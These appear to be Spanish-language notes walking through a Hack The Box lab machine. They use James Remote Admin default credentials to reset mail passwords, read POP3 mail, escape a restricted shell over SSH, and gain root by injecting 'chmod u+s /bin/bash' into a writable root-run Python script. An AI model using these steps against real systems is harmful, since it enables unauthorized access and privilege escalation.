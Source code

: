 ## Summary

- IP -> 10.10.10.51
- Ports -> TCP (22, 25, 80, 110, 119, 4555), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> SSH 7.4p1 launchpad -> Para ver que distribucion de Linux es
    - 25 -> smtp
    - 80 -> http launchpad -> Para ver que distribucion de Linux es
    - 4555 -> rsip

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **nc 10.10.10.51 4555** Nos conectamos al puerto 4555 por netcat, nos muestra un James Remote Administratio Tool 2.3.2, el cual podemos encontar sus default passwd en Internet, este es un servico Apache
- Comando -> **telnet 10.10.10.51 4555** Nos conectamos al puerto 4555 por Telnet y proporcionamos el usuario y passwd por defaul que es root, root
	- **>help**  Nos lista los comandos
	- **>listusers** Listamos los usuarios existentes
	- **>setpassword** Le podemos cambiar el passwd a un usuario existente y asi podernos conectar despues a su correo, por el puerto 110 que tenemos abierto
	- **>quit** Nos salimos del servidor RSIP

- Comando -> **telnet < IP> 110** Nos conectamos a POP3 por medio de Telnet, con un usuario y passwd. 
Comandos cuando nos conectamos
- **USER < Name>** Nombre del usuario a conectar
- **PASS < PASSWD>** Passwd del usuario a conectar 
- **>LIST** Miramos si tiene algun correo y debemos ver minimo **1** 10, por lo que no debemos de ver 0 0 ya que eso dice que no tiene correo 
- **>RETR < NUM>** Le pasamos el primer numero que hayamos encontrado anteriormente y listamos los mensajes que tenga en su bandeja de entrada, si encontramos un **2** quiere decir que hay dos correos, por lo que podemos poner primero **1** y despues el **2** y asi sucesivamente.
- **>QUIT** Nos salimos del servidor POP3

## User
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh  y obtenemos acceso al sistema
Buscamos la flag de user.txt en el directorio

Nos damos cuenta que estamos en una restricted bash. (rbash)
- Comando -> **echo $PATH** Miramos el path de la consola Linux
- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

Cuando estamos en una restricted bash (rbash) podemos meter comandos en el ssh, esto si la restricted bash esta mal configurada:
- Comando -> **ssh < USER>@< IP> < COMMAND>** Conectarnos por ssh , pero antes nos ejecuta un comando, en este caso podemos hacer que nos de una bash. 
	- **bash** -> Podemos colocar bash como comando, podremos interactuar aunque no nos de una pseudo-consola. Pero podemos hacerle el tratamiento y nos dara una:
		- Tratamiento de la consola Linux cuando entras a una maquina victima
			 - **Script /dev/null -c bash** 
			 - **Ctrl + z**
			 - **stty raw -echo; fg**
			 -  **reset xterm**
			- **export TERM=xterm** Para poder hacer Ctrl +c y Ctrl + l (l=ele)
			- **export SHELL=/bin/bash**Hacemos que shell ahora valga bash

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

## Root
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities

Cambiamos el Path a uno mas grande, colocando el de nuestra maquina.

Como no obtenemos nada, haremos un archivo .sh para poder ver si hay algun servicio que nos pueda ayudar a escalar privilegios 
- **/dev/shm** Directorio con capacidad de escritura

- Comando -> **nano file.sh**
	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
		
	\# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="\$(ps -eo command)"

	while true; do
		new_process="\$(ps -eo command)"
		diff <(echo "\$old_process") <(echo "\$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker
		old_process=\$new_process
	done	

El comando ps nos permite detectar todos los comandos y procesos que se estan ejecuatndo en el sistema

- Comando -> **chmod +x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
- Comando -> **nano /opt/tmp.py**
	os.system('chmod u+s /bin/bash')

Para ir monitoreando el comando hacemos lo siguiente:
- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash

Modificando esa parte le diremos que otorgue el privilegio usid a la bash, para que cuando lo ejecute le pondra el s asi: -rw**s**r-xr-x root root 

- Comando -> **bash -p** Para ejecutar la bash con privilegios (p=priviledge) y atentara contra el propietario root

Ahora solo buscamos la flag root.txt
